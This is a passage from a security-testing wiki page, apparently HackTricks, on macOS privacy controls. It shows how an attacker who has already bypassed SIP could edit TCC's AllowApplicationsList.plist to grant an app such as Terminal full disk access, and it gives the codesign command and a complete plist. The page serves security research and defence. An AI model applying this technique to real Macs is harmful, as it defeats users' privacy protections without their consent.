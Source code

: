 However, there is another option to abuse this **SIP bypass to bypass TCC**, the file `/Library/Apple/Library/Bundles/TCC_Compatibility.bundle/Contents/Resources/AllowApplicationsList.plist` is an allow list of applications that require a TCC exception. Therefore, if an attacker can **remove the SIP protection** from this file and add his **own application** the application will be able to bypass TCC.\
For example to add terminal:

```bash
# Get needed info
codesign -d -r- /System/Applications/Utilities/Terminal.app
```

AllowApplicationsList.plist:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>Services</key>
	<dict>
		<key>SystemPolicyAllFiles</key>
		<array>
			<dict>
				<key>CodeRequirement</key>
				<string>identifier &quot;com.apple.Terminal&quot; and anchor apple</string>
				<key>IdentifierType</key>
				<string>bundleID</string>
				<key>Identifier</key>
				<string>com.apple.Terminal</string>
			</dict>
		</array>
	</dict>
</dict>
</plist>
```

### TCC Bypasses


{{#ref}}
macos-tcc-bypasses/
{{#endref}}

## References

- [**https://www.rainforestqa.com/blog/macos-tcc-db-deep-dive**](https://www.rainforestqa.com/blog/macos-tcc-db-deep-dive)
- [**https://gist.githubusercontent.com/brunerd/8bbf9ba66b2a7787e1a6658816f3ad3b/raw/34cabe2751fb487dc7c3de544d1eb4be04701ac5/maclTrack.command**](https://gist.githubusercontent.com/brunerd/8bbf9ba66b2a7787e1a6658816f3ad3b/raw/34cabe2751fb487dc7c3de544d1eb4be04701ac5/maclTrack.command)
- [**https://www.brunerd.com/blog/2020/01/07/track-and-tackle-com-apple-macl/**](https://www.brunerd.com/blog/2020/01/07/track-and-tackle-com-apple-macl/)
- [**https://www.sentinelone.com/labs/bypassing-macos-tcc-user-privacy-protections-by-accident-and-design/**](https://www.sentinelone.com/labs/bypassing-macos-tcc-user-privacy-protections-by-accident-and-design/)

{{#include ../../../../banners/hacktricks-training.md}}


